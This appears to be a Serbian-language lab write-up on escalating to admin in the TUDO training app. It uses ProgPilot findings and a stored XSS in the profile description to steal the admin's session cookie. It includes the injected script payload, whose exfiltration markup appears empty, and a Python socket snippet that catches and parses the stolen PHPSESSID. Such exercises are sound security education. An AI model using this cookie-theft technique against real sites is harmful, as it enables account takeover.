

# Zadatak 2 - Dobijanje admin privilegija

## Uvod

Analizirana je aplikacija **TUDO**, sa ciljem da se demonstrira eskalacija privilegija do administratorskog naloga.

Za identifikaciju ranjivosti korišćen je alat **ProgPilot**, a zatim je razvijen *Python* skript koji koristi **Stored XSS** ranjivost kako bi se ukrao administratorski session cookie.

ProgPilot je prijavio sledeće relevantne ranjivosti:




Na liniji 40, se nalazi kontaminirana (tainted) vrednost, odnosno vrednost koja se iz baze direktno ispisuje u HTML atribut bez ikakvog enkodovanja.

$row[1] dolazi iz upita bazi, pošto je to korisnički unos, sadržaj baze podataka je kontrolisan od strane napadača. To važi za sva 3 polja: username, password i description. Mi u napadu koristimo polje description.

Ove ranjivosti omogućavaju ubacivanje JavaScript koda koji se izvršava prilikom posete admina.

## Opis skripta

Skript je napisan u *Python*-u i koristi biblioteku *requests* za komunikaciju sa aplikacijom i *socket* za presretanje HTTP zahteva.

### Ubacivanje XSS payload-a

Funkcija **set_desc()** ubacuje maliciozni JavaScript kod u polje description na korisničkom profilu:

```html
<script>
document.write('');
</script>
```

Ovaj payload čini da se prilikom učitavanja stranice korisničkog profila od strane admina, njegov session cookie pošalje napadaču putem HTTP GET zahteva.

### Presretanje admin cookie-ja

Funkcija **get_admin_session()** podiže TCP server i čeka dolaznu konekciju od adminovog browsera. Kada admin otvori kompromitovanu stranicu, payload se izvršava i kolačić (PHPSESSID) se šalje napadaču.

Kod za presretanje izgleda ovako:

```python
(sock_c, ip_c) = s.accept()
get_request = sock_c.recv(4096)
admin_cookie = get_request.split(b" HTTP")[0][5:].decode("UTF-8")
admin_cookie = admin_cookie.split('=')[1]
print("[+] Stole admin's cookie:", admin_cookie)
```

Na ovaj način napadač dobija validan admin session cookie i može da preuzme administratorske privilegije u aplikaciji.

## Analiza korišćenja ProgPilot nalaza

Stored XSS u profile.php: iskorišćen direktno za ubacivanje JavaScript koda koji krade cookie.